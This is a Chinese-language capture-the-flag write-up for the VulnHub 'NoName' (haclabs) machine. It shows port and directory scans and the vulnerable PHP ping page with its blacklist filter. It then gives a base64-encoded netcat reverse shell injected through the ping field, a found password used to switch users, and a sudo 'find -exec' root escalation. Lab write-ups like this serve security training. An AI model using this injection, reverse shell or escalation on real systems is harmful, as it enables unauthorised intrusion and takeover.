# NoName

> https://download.vulnhub.com/haclabs/HL.ova

靶场IP：`192.168.32.22`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.22 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 00:28 EDT
Nmap scan report for 192.168.32.22
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:74:12:22 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.55 seconds

```

访问80端口，但是无法执行ping命令。

![image-20220914122855710](../../.gitbook/assets/image-20220914122855710.png)

爆破目录，找到：`/superadmin.php `

```
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.32.22 -w /usr/share/wordlists/dirb/big.txt -x .php   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/14 00:31:46 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/admin                (Status: 200) [Size: 417]
/index.php            (Status: 200) [Size: 201]
/server-status        (Status: 403) [Size: 278]
/superadmin.php       (Status: 200) [Size: 152]
                                               
===============================================================
2022/09/14 00:32:12 Finished
===============================================================
                                                                  
```

访问：`/superadmin.php `

![image-20220914123259003](../../.gitbook/assets/image-20220914123259003.png)

执行命令

![image-20220914123334005](../../.gitbook/assets/image-20220914123334005.png)

查看`superadmin.php`源码，开源发现有些命令会被过滤。

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
>
```

使用base64绕过

```
┌──(root㉿kali)-[/tmp]
└─# echo 'nc.traditional  -e /bin/bash 192.168.32.5 12345' | base64
bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK
```

```
ping 127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgIC1lIC9iaW4vYmFzaCAxOTIuMTY4LjMyLjUgMTIzNDUK=" | base64 -d`
```

![image-20220914124215641](../../.gitbook/assets/image-20220914124215641.png)

有隐藏文件

![image-20220914133210504](../../.gitbook/assets/image-20220914133210504.png)

找属于yash用户的文件

```
www-data@haclabs:/home/yash$ find / -type f -user yash 2>/dev/null
find / -type f -user yash 2>/dev/null
/home/yash/flag1.txt
/home/yash/.bashrc
/home/yash/.cache/motd.legal-displayed
/home/yash/.profile
/home/yash/.bash_history
/usr/share/hidden/.passwd
```

```
www-data@haclabs:/home/yash$ cat /usr/share/hidden/.passwd
cat /usr/share/hidden/.passwd
haclabs1234
```

切换到`haclabs`用户

```
www-data@haclabs:/home/yash$ su haclabs
su haclabs
Password: haclabs1234

```

查看sudo列表

![image-20220914133509818](../../.gitbook/assets/image-20220914133509818.png)

sudo提权

```
sudo -u root find . -exec /bin/bash \; -quit
```

![image-20220914133517903](../../.gitbook/assets/image-20220914133517903.png)

